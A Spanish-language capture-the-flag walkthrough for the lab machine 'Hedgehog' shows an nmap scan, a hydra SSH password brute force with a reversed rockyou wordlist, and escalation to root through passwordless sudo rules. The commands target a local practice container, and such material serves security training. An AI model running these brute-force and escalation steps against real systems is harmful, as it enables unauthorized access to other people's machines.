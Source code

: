 Maquina: Hedgehog

Autor: AnkbNikas

Dificultad: Muy Facil

![image](https://github.com/user-attachments/assets/f6bd58de-24c1-4e90-a49c-013163d99fa6)

1.Reconocimiento:

Escaneo de la red
Siempre como primer paso revisamos que haya conexión con la maquina (objetivo), 
para esto lanzamos un simple ping a la ip objetivo que en este caso al correr la maquina nos ahorra el trabajo
de localizar el host especifico que en caso de no encontrarlo podemos usar nmap -sn y escanear toda la red.

ping 172.17.0.2 -c 1

![Ping](https://github.com/user-attachments/assets/fdd0621d-7d57-46b0-b0e2-783916f13f53)

Luego, identificamos los servicios en los puertos abiertos:

sudo nmap -p- -sCV 172.17.0.2 -Pn -n --min-rate 5000

Encontramos los puertos 22 & 80 abiertos

![Nmap](https://github.com/user-attachments/assets/0b2c836a-c2a3-4ed5-a28d-9e8902a75c23)

Abrimos el navegador y navegamos a (IP). En la página principal, veremos el mensaje “tails”, 
lo que nos da una pista del nombre de usuario.

![URL](https://github.com/user-attachments/assets/f8d0c398-0d3b-4523-ba25-aa041fe057b9)

2.Explotación
Usamos una herramienta de fuerza bruta para obtener acceso al usuario tails utilizando rockyou invertido.
sudo hydra -l tails -P invertido.txt ssh://(IP)

![Captura de pantalla 2024-11-17 170210](https://github.com/user-attachments/assets/0c45b4b4-2a83-44e5-b3cc-1488d57aed47)

![Captura de pantalla 2024-11-17 170218](https://github.com/user-attachments/assets/bc88ab97-a730-4238-8e77-558fbade388c)

![Captura de pantalla 2024-11-17 170231](https://github.com/user-attachments/assets/99e8a652-e97c-4ba6-84a5-fe3d3fa2b08d)

Nos conectamos via SSH con las credenciales obtenidas.
ssh tails@(IP)

![SSH](https://github.com/user-attachments/assets/57de162e-0429-4269-bc59-b53d854bbdbc)

3.Escalada de privilegios

Vamos a home para buscar mas usuarios y encontramos sonic.

cd ..

ls

Desde la cuenta de tails, verificamos los permisos de sudo.

sudo -l

Observamos que tails puede ejecutar comandos como sonic sin contraseña.

Cambiamos a la cuenta de sonic.

sudo -u sonic -s

![Escalada](https://github.com/user-attachments/assets/74ae9eaf-a6a9-48eb-b82e-d945d09fd511)

Verificamos los permisos de sudo nuevamente.

sudo -l

Observamos que sonic puede ejecutar cualquier comando como root sin contraseña.

Finalmente, escalamos privilegios a root.

sudo -i

![Root](https://github.com/user-attachments/assets/fbe14574-dacd-4a48-b895-4d01333f93f1)
